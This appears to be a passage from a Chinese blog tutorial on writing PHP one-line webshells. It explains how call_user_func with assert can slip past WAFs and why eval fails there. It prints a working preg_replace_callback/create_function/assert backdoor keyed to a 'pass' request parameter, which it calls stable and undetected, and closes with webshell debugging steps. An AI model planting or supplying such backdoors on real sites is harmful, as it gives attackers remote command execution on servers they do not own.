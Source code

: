 ![title](https://leanote.com/api/file/getImage?fileId=5da831f7ab64416e47002966)

当然在没有错误的情况下加不加`@`看起来没有区别：

![title](https://leanote.com/api/file/getImage?fileId=5da83254ab64416c4c002af3)

注意：此时 post 数据后面加不加`;`无所谓，但是 post 参数时候，参数、等号、值之间不能有空格，否则就会出错（违背post数据的格式）。

![title](https://leanote.com/api/file/getImage?fileId=5da8332aab64416c4c002af9)


 ---------------
 
 
## call_user_func 函数为什么不能调用 eval 的分析

> `call_user_func` 这个函数可以调用其它函数，被调用的函数是 `call_user_func` 的第一个函数，被调用的函数的参数是 `call_user_func` 的第二个参数。这样的一个语句也可以完成一句话木马。一些被 waf 拦截的木马可以配合这个函数绕过 waf。

call_user_func 调用 assert 执行命令：

![title](https://leanote.com/api/file/getImage?fileId=5da84052ab64416c4c002b43)


使用 eval 尝试一下:

![title](https://leanote.com/api/file/getImage?fileId=5da8412cab64416e470029be)

却报错了。参考了这篇文章：[一句话木马踩坑记](https://xz.aliyun.com/t/6511)，分析原因为：eval 是因为是一个语言构造器而不是一个函数，不能被可变函数调用。`call_user_func` 有两个参数，第一个参数要求是函数，而`eval`只是一个语言构造器而不是函数，所以不符合 call_user_func 的语法，所以就报错了。


 ---------------
 
 
## preg_replace_callback() 函数
> 本文中不讨论 `preg_replace /e` 函数写 webshell，因为此函数5.5.0及以上版本已经被弃用了。使用 preg_replace_callback() 代替。



``` php
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);
```

此 webshell 的原理为：通过 `create_function` “创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

这是一个不杀不报稳定执行的回调后门，但因为有 `create_function` 这个敏感函数，所以看起来总是不太爽。不过也是没办法的事。

![title](https://leanote.com/api/file/getImage?fileId=5da99885ab64416c4c003331)

 ---------------
 
 
## file_put_contents 函数
> **夹带私货：**
webshell 调试三部曲：
1. 把函数写在 php 文件中，看能否执行
2. 写成 `$_GET['']` 方式传入命令，看能否执行
3. 写成 `$_POST['']`方式传入命令，能能否执行命令
`注：`2、3步可以合成通过`$_REQUEST['']`方法传入命令。
